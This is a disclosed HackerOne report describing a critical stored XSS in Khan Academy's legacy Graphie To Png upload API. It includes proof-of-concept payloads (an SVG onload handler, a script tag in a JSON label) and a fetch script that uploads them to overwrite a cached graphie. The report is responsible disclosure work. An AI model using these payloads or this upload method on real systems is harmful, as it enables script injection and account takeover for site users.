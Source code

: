 # XSS on using the legacy "Graphie To Png" API

## Report Details
- **Report ID**: 2846011
- **URL**: https://hackerone.com/reports/2846011
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2024-11-18T08:39:51.846Z
- **Disclosed**: 2025-02-06T16:26:40.528Z

## Reporter
- **Username**: sikn
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: khanacademy

## Vulnerability Information

An attacker can can upload malicious graphies via (http://graphie-to-png.kasandbox.org/) and (http://graphie-to-png.khanacademy.systems/) that exploit the graphie renderer.
The attack targets any page that has a graphie (`khanacademy.org`!!), as well as `cdn.kastatic.org` and `ka-perseus-graphie.s3.amazonaws.com`

# Proof of concept
## Step 1: Uploading a malicious graphie
consider the following example where https://ka-perseus-graphie.s3.amazonaws.com/2122427aa8dc4ef2a59058bc1a7a934ba6ca6747.svg is used in an article, we will override it by uploading the same JS but with malicious SVG and JSON data (because the hash is a hash of the JS).

1. **Malicious SVG:** The SVG is modified to include a malicious `onload` attribute.
```html
<svg ... onload="alert('SIKN')">...</svg>
```
2. **Malicious JSON:** A label is modified with `typesetAsMath: false`, causing the graphie renderer to inject our code to DOM. This is what will target `khanacademy.org`
```json
{
	"labels": [
		{
			"content": "<script>alert('SIKN')</script>",
			"typesetAsMath": false,
			...
		},
		...
	],
	...
}
```
```js
var form = new FormData();
form.append("js", ORIGINAL_JS);
form.append("svg", XSS_SVG);
form.append("other_data", JSON.stringify(XSS_JSON));

await fetch("http://graphie-to-png.kasandbox.org/svg", {
    "method": "POST",
    "body": form
}).then(r=>r.text())
```


## Step 2: Wait patiently
Wait until cdn.kastatic.org updates its cache, for this example I had already prepared it by not caching the original graphie (https://cdn.kastatic.org/ka-perseus-graphie/2122427aa8dc4ef2a59058bc1a7a934ba6ca6747.svg)

As for the malicious JSON, using the devtools override feature to simulate an attack shows that it works:
{F3766148}

## Impact

XSS on pages that use graphies, potentially leading to account takeovers.

## Attachments
- POC.png
